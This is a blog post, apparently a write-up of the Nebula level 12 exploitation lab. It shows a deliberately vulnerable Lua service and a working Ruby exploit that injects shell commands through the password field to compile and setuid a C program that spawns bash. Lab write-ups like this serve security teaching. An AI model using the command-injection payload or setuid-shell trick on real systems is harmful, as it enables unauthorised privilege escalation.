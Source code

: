 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level 12"
date: 2014-01-26 20:12:53 +0800
comments: true
published: true
categories: 
- Security
- Exercises
- Nebula
---
```


### About

There is a backdoor process listening on port 50001.

To do this level, log in as the *level12* account with the password *level12*. Files for this level can be found in /home/flag12.

<!-- more -->

### Source code

``` lua /home/flag12/flag12.lua
local socketlocal socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password) 
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
    print("trying " .. line) -- log from where ;\
    local h = hash(line)

    if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
      client:send("Better luck next time\n");
    else
      client:send("Congrats, your token is 413**CARRIER LOST**\n")
    end

  end

  client:close()
end
```


### Solution 

`prog = io.popen("echo "..password.." | sha1sum", "r")` this line of code in *hash()* function try to calc the hash of the password, but we can execute any command with a well structed *password*. 

Write a simple Ruby script to send command to server, here I construct a *password* to make the server build a *drop.c* file into directory /home/flag12.

``` ruby
require 'socket'

server = TCPSocket.open("127.0.0.1", 50001)
server.puts("hello && gcc -o /home/flag12/flag12 /tmp/drop.c && chmod 777 /home/flag12/flag12 && chmod +s /home/flag12/flag12 && echo hello ")
ret = server.gets.chomp
puts "#{ret}"
```

Remenber the piece of C code we used to drop privilege? Here it is again:

``` c /tmp/drop.c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main() {
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  execv("/bin/bash", NULL);
}
```

Run the Ruby script, I got

``` bash
level12@nebula:~$ ruby client.rb
Password: Better luck next time
```

It is all right, I have no interest in the password anyway. Take a look at the directory /home/flag12

``` bash
flag12@nebula:~$ ll /home/flag12
total 14
drwxr-x--- 1 flag12 level12   60 2014-03-02 22:45 ./
drwxr-xr-x 1 root   root     280 2012-08-27 07:18 ../
-rw-r--r-- 1 flag12 flag12   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag12 flag12  3353 2011-05-18 02:54 .bashrc
-rwsrwsrwx 1 flag12 flag12  7322 2014-03-02 22:45 flag12*
-rw-r--r-- 1 root   root     685 2011-11-20 21:22 flag12.lua
-rw-r--r-- 1 flag12 flag12   675 2011-05-18 02:54 .profile
```

Here is the executable *flag12* with Set-User-ID bit, run it and a bash with *flag12* user privilege will show up!
